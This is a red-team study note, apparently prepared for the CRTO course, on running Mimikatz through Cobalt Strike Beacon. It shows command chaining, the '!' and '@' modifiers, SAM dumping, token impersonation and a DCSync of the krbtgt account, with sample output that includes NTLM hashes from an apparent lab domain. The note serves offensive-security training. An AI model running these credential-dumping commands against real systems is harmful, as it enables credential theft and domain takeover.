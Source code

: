 
Check for [[Mimikatz]] for further information on the tool.
Cobalt Strike has a built-in version of Mimikatz that we can use to extract various credential types.  However, there are some differences with how it behaves in Beacon compared to the console version.  

Each time you execute Mimikatz in Beacon, it does so in a new temporary process which is then destroyed.  This means you can't run two "related" commands, such as:

```
beacon> mimikatz token::elevate
beacon> mimikatz lsadump::sam
```
You need to chain them.

## 🖊️ Command shortcuts

1) Since CS 4.8, you can chain multiple commands together by separating them with a semi-colon.

	`beacon> mimikatz token::elevate ; lsadump::sam`

Here, you are (from an elevate beacon session) elevating your token privileges to nt authority system and dumpling the SAM db.

2) Beacon also has its own command convention using the `!` and `@` symbols as "modifiers".

The `!` elevates Beacon to SYSTEM before running the given command, which is useful in cases where you're running in high-integrity but need to impersonate SYSTEM.  In most cases, `!` is a direct replacement for `token::elevate`. For example:

	`beacon> mimikatz !lsadump::sam`

3) The `@` impersonates Beacon's thread token before running the given command, which is useful in cases where Mimikatz needs to interact with a remote system, such as with [[dcsync]].  This is also compatible with other impersonation primitives such as `make_token` and `steal_token`.  For example:

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> make_token DEV\nlamb F3rrari
[+] Impersonated DEV\nlamb (netonly)

beacon> mimikatz @lsadump::dcsync /user:DEV\krbtgt
[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
[DC] 'DEV\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   : 
Password last change : 8/15/2022 4:01:04 PM
Object Security ID   : S-1-5-21-569305411-121244042-2357301523-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 9fb924c244ad44e934c390dc17e02c3d
    ntlm- 0: 9fb924c244ad44e934c390dc17e02c3d
    lm  - 0: 207d5e08551c51892309c0cf652c353b
```


### Properties
---
📆 created   {{10-02-2024}} 21:45
🏷️ tags: #redteam #crto #activedirectory 

---

